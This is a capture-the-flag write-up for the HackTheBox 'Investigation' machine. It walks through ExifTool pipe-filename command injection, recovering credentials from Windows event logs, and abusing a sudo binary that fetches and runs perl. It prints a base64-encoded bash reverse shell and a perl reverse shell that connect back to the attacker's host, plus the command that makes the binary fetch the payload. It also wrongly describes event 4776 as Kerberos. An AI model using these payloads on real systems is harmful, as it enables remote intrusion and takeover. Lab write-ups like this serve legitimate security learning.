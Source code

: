  ![image](https://user-images.githubusercontent.com/87700008/221355489-6f404be9-6582-460a-aa3d-ecc3eaa1392b.png)

https://app.hackthebox.com/machines/Investigation

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Enuemration :

I started with q qucik rustscan & observed only 2 open ports on the network, i.e 22 & 80

![image](https://user-images.githubusercontent.com/87700008/221355635-38b21308-4d60-427d-b5c4-ec39f8a8f594.png)

    - 22 open ssh syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    - 80 open http syn-ack ttl 63 Apache httpd 2.4.41
    
In the port scan results I found a domain as well 'http://eforenzics.htb/' , which I added to /etc/hosts file.
Browsed through the website & found an upload image options for forensics results.

![image](https://user-images.githubusercontent.com/87700008/221406576-cc1c2a20-e482-493c-ba17-fc0e2918370c.png)
![image](https://user-images.githubusercontent.com/87700008/221406588-b3dc4bfe-c879-4ec7-8eab-9c42c94accf1.png)

Then I proceeded with the subdomain scanning of the webserver & found only 1 result in it '/assets'

![image](https://user-images.githubusercontent.com/87700008/221356009-866a66d0-d4ff-4de4-a1b4-e9dd65dca4bd.png)

I then tried to accessing the '/assets' but got 403 error.

Then I tried to upload the .php file in hope to get some shell but the filters are blocking the upload other than .jpg & .png.
I tried many filters to bypass but it wasn't working.

![image](https://user-images.githubusercontent.com/87700008/221406739-726f6087-f029-4b28-9743-1de130451c22.png)

Then after multiple failure I uploaded regular PNG image & it gave the the forensics results of the image.

![image](https://user-images.githubusercontent.com/87700008/221406805-c9dc7b77-bec4-4054-8635-c1008c84b7bb.png)

I observed that the website is using the 'ExifTool ver 12.37' for the image forensics purpose.

![image](https://user-images.githubusercontent.com/87700008/221406990-c08f0376-9fcc-4a3b-ab76-fdbedf912943.png)

Searching the exploit for this version I landed on this [page.](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)
Which states "An attacker can pass a filename that ends with a pipe (|) to exiftool and if it exists on the filesystem, execute it as an operating system command."

I tried the same using burp & to test it I first started the tcpdump & icmp server to check if I get any response from the machine or not. And I got the response from the host.

    sudo tcpdump icmp -i tun0 -v
  
![image](https://user-images.githubusercontent.com/87700008/221408521-4c20505d-9d29-4cd0-96a0-e6e0271fafd1.png)

After the confirmation that the website is responding & exiftool is vulnerable now it's time for the Rev Shell.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access :

I tried injection the regular bash payload for reverse shell but didn't received any shell, there may be some filters running on the website.
I then encoded the payload in base64 format & appended the decode function after it so that we can execute the payload as well.

    echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NS81MyAwPiYxCg==' | base64 -d | bash|
    
![image](https://user-images.githubusercontent.com/87700008/221409232-b34266c4-4d49-471a-a7af-78675876e693.png)

This time I received the reverse shell with the user running '**www-data**', then stabilized the shell.

I got a user folder in the home directory 'smorton', but I don't have access for his folder.

![image](https://user-images.githubusercontent.com/87700008/221428367-d7865d17-d9d8-4042-9ee1-887142c1f91b.png)

I then tried to check for the vectors of priv esc but few of the methods are asking for user password which I don't have.
I then ran 'linpeas' to check for possible priv esc vectors, I found a cronjob running from '**/usr/bin/crontab**' which is performing some activity in this folder '**/usr/local/investigation/analysed_log**'

![image](https://user-images.githubusercontent.com/87700008/221429059-806cdb8c-5197-4910-8015-11281a387c52.png)

Then I started digging the '**/usr/local/investigation/**' path & found one .msg file there, i.e. '**Windows Event Logs for Analysis.msg**'
I transferred this file into my machine & checked it's content online as I don't have any email reader in kali machine.

![image](https://user-images.githubusercontent.com/87700008/221429231-eb81053e-d8f8-477c-ae45-a8f9a62f317e.png)

I downloaded the e-mail attachment in my machine as well. After unzipping the attachment I got another file '**security.evtx**' which is a Windows log event file.

![image](https://user-images.githubusercontent.com/87700008/221603664-b818713d-4b2a-4bac-be23-68e844f47e96.png)

I tried to read it's content but it's not in the humand readable format so then I used a script from this [GitHub repo](https://github.com/williballenthin/python-evtx/blob/master/scripts/evtx_dump.py) to dump the file in the humand readable format.

![image](https://user-images.githubusercontent.com/87700008/221610703-a611b949-e510-4bef-99b4-e462cbf5ef8e.png)
![image](https://user-images.githubusercontent.com/87700008/221610779-c14d1770-15d7-4999-ba51-4e89f2bc5f4c.png)

When checking the dump file, I found some credentials in that dump file. As the dump file is too big I used the event code '4776' to check for any intresting strings.
    
    Event ID 4776 is a security-related event that is logged when a computer attempts to authenticate a user account using Kerberos authentication. This event is triggered when an authentication attempt fails, and helps identify where the failure occurred.
    
![image](https://user-images.githubusercontent.com/87700008/221618208-c639d9a1-d408-4cac-ad5f-a2d0d39f3997.png)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## User flag:

I tried to use the gathered credentials with 'Smorton' account to login. And successfully logged in using SSH. (pwn3d!🙂)

![image](https://user-images.githubusercontent.com/87700008/221619018-273202a5-d30b-41c6-a2b4-59fd42c2444d.png)

After logging in I got the user flag into 'smorton' home directory.

![image](https://user-images.githubusercontent.com/87700008/221619403-e1478558-7076-4998-93be-fe436cf3a34e.png)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Priv Esc:

I started with the manual enumeration & checked for the sudo permissions 'sudo -l' & got this :

![image](https://user-images.githubusercontent.com/87700008/221628022-11bc581a-2f3d-4b4d-b65e-52d1f981e00a.png)

So, then I checked the 'binary' file using string command but the information is not clear in it:

![image](https://user-images.githubusercontent.com/87700008/221628425-220d6429-b93b-4292-a638-127a95e58a60.png)


*At this point I was stucked & executed the LinPeas as well to find the other possible vectors as well but didn't found any. So, then I checked for the hints online & got this [walkthrough](https://systemweakness.com/hackthebox-linux-box-investigation-e64b97ca7876)*

In the blog, I found that he the author uploaded the binary file to [online decompile](https://dogbolt.org/) & then reviewed the source code.

He extracted the main function of the binary, that can be seen in couple of parts.

```int32_t main(int32_t argc, char** argv, char** envp)
{
    if (argc != 3)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    if (getuid() != 0)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    if (strcmp(argv[2], "lDnxUysaQn") != 0)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    puts("Running... ");
    FILE* rax_8 = fopen(argv[2], &data_2027);
    int64_t rax_9 = curl_easy_init();
    int32_t var_40 = 0x2712;
    curl_easy_setopt(rax_9, 0x2712, argv[1], 0x2712);
    int32_t var_3c = 0x2711;
    curl_easy_setopt(rax_9, 0x2711, rax_8, 0x2711);
    int32_t var_38 = 0x2d;
    curl_easy_setopt(rax_9, 0x2d, 1, 0x2d);
    if (curl_easy_perform(rax_9) != 0)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    int64_t rax_25 = snprintf(nullptr, 0, &data_202a, argv[2]);
    char* rax_28 = malloc((rax_25 + 1));
    snprintf(rax_28, (rax_25 + 1), &data_202a, argv[2]);
    int64_t rax_37 = snprintf(nullptr, 0, "perl ./%s", rax_28);
    char* rax_40 = malloc((rax_37 + 1));
    snprintf(rax_40, (rax_37 + 1), "perl ./%s", rax_28);
    fclose(rax_8);
    curl_easy_cleanup(rax_9);
    setuid(0);
    system(rax_40);
    system("rm -f ./lDnxUysaQn");
    return 0;
}
```

Firstly, it checks whether three input parameters have been sent through (actually two because the first parameter is the program name itself) and exits if not.

Secondly, it checks whether a root user calls it (achievable because we can run it as root without a password) and exits if not.

Thirdly, it checks whether the third parameter is equal to the string lDnxUysaQn, and exits if not.

Fourthly, it opens a file with curl which is specified by the second parameter and reads and runs with perl.

And it can be seen that the machine would send the get request to the specified URL.

![image](https://user-images.githubusercontent.com/87700008/221631208-5a9a09bf-9176-430e-b33e-0f9dda4d9412.png)

I then hosted a perl based revsershell in my kali machine :

``` use Socket;
$i="[My_IP_here]";
$p=53;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
 open(STDIN,">&S");open(STDOUT,">&S");
 open(STDERR,">&S");exec("/bin/bash -i");
};
```

I then executed the command & got the shell. (pwn3d!🙂)

    sudo /usr/bin/binary 10.10.X.X/shell.pl lDnxUysaQn
    
![image](https://user-images.githubusercontent.com/87700008/221632999-e60d0734-155c-4972-9f57-4ec74c8725b3.png)
